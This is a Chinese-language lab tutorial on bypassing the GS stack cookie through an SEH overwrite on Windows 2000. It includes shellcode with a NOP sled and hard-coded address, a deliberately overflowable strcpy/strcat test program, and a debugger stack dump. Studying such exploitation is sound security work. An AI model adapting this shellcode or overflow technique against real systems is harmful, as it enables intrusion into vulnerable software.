






# Attack exception handling bypass GS

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
// attack_SEH.cpp : 定义控制台应用程序的入口点
//

#include <stdafx.h>
#include <string.h>

char shellcode[] =
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90"
		"\xA0\xFE\x12\x00"//address of shellcode
;

void test(char* input)
{
	__asm int 3
	char buf[200];
	strcpy(buf, input);
	strcat(buf, input);
}

int main()
{
	test(shellcode);
	return 0;
}
```

拿到代码后，按照第一篇写的设置VS，我的win2000装不了VS，所以我在win xp下安装了

但是生成的exe还是在win2000下运行，不然safeSEH会有影响

然后在如图所示位置下个断点



Release版本的走起来，可以看到生成Security Cookie的代码，同时注意EAX和EBP，右下角我已经跳到了Security Cookie的位置了



然后往下看，可以看到这里是strcpy，`ss:[ebp+8]`是参数，也就是传进去shellcode的指针，然后第二个是目的地址，也就是在最开始开辟的栈空间的起始地址



我们先把栈布局复制下来
``` 
0012FE94   003425B8
0012FE98   00000000
0012FE9C   000001F6
0012FEA0   00340000
0012FEA4   000001DD
0012FEA8   00343098
0012FEAC   00343090
0012FEB0   00340168
0012FEB4   77FCCCA4  返回到 ntdll.77FCCCA4 来自 ntdll.77F83235
0012FEB8   00340000
0012FEBC   00343090
0012FEC0   00000000
0012FEC4   00343098
0012FEC8  /0012FF0C
0012FECC  |00405342  返回到 attack_S.00405342 来自 ntdll.RtlSizeHeap
0012FED0  |00340000
0012FED4  |00000000
0012FED8  |0040534B  返回到 attack_S.0040534B 来自 attack_S.00402799
0012FEDC  |0BF59A7E
0012FEE0  |00343098
0012FEE4  |00343098
0012FEE8  |00000000
0012FEEC  |0012FF2C
0012FEF0  |77F81F55  ntdll.77F81F55
0012FEF4  |0012FEDC
0012FEF8  |0012FF60
0012FEFC  |00000004
0012FF00  |00000004
0012FF04  |00402193  返回到 attack_S.00402193
0012FF08  |00000001
0012FF0C  \00402147  attack_S.00402147
0012FF10   00402D9C  返回到 attack_S.00402D9C 来自 attack_S.0040216B
0012FF14   0034309C
0012FF18   00402A93  返回到 attack_S.00402A93 来自 ntdll.RtlLeaveCriticalSection
0012FF1C   0040B608  attack_S.0040B608
0012FF20   0012FF60
0012FF24   004014A0  返回到 attack_S.004014A0 来自 attack_S.00402A80
0012FF28   00000008
0012FF2C   00402E18  返回到 attack_S.00402E18 来自 attack_S.00401499
0012FF30   00402E12  返回到 attack_S.00402E12 来自 attack_S.00402799
0012FF34   0BF59A12
0012FF38   00000893
0012FF3C   00000002
0012FF40   77E63D36  KERNEL32.GetProcessHeap
0012FF44   00402147  attack_S.00402147
0012FF48   0012FF34
0012FF4C   49656E69
0012FF50   0012FFB0
0012FF54   004027B0  attack_S.004027B0
0012FF58   0BA7F6BA
0012FF5C   FFFFFFFE
0012FF60   0BF59A16
0012FF64  /0012FF70
0012FF68  |0040721D  返回到 attack_S.0040721D 来自 attack_S.004071C0
0012FF6C  |0040ACA0  attack_S.0040ACA0
```

我们运行到call之前，可以看到栈里面两个参数



运行之后就会溢出



但是我们观察栈的布局，发现shellcode的长度不够，并没有覆盖SEH，所以我们修改一下长度，这个长度根据你的虚拟机确定

但是不着急，顺便修改一下覆盖SEH的值，可以看到，目的地址是`0x0012FE94`，那么我们就需要用这个指针来覆盖SEH，这样处理异常的时候就会直接执行shellcode



当然这只是作为例子来演示，在实际的攻击中用固定地址是几乎不可能成功的事，因为每台pc都不一样，你怎么确定每次的buff地址都是我们这次设置的值？